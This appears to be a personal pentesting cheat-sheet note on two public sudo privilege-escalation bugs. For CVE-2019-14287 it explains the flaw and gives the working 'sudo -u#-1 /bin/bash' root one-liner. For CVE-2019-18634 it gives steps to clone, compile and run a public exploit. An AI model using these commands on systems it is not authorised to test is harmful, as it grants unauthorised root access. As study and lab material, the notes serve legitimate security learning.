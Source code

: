 -- -
#### CVE-2019-14287
#cve-2019-14287
Happens because sudo doesn't check the supplied user id, so by giving it `-u#-1`, the expression returns the ID `0` which is root's ID, and since sudo doesn't verify this ID, it executes bash as root. You can change the expression to be any user ID and take over that account, this isn't exclusive to root. 
```bash
# for situation where you run:
sudo -l

# and get the following output:
# (ALL, !root) /bin/bash

# This means you can run bash with sudo for any user on the system EXCEPT root.
# Trivially exploit to get root:
sudo -u#-1 /bin/bash

# And boom you have root!
```
#### CVE-2019-18634

^8d0e58

#cve-2019-18634
Buffer overflow vulnerability in sudo. Key component is the version of sudo and that the `pwfeedback` setting is on. 
##### Enum
![[Sudo#^297150]]
##### Prepare exploit
[Exploit Source](https://github.com/saleemrashid/sudo-cve-2019-18634)
```bash
git clone https://github.com/saleemrashid/sudo-cve-2019-18634.git
cd sudo-cve-2019-18634/
gcc -o exploit exploit.c
```
##### exploit
```bash
# literally just run the exploit on the target
./exploit
```
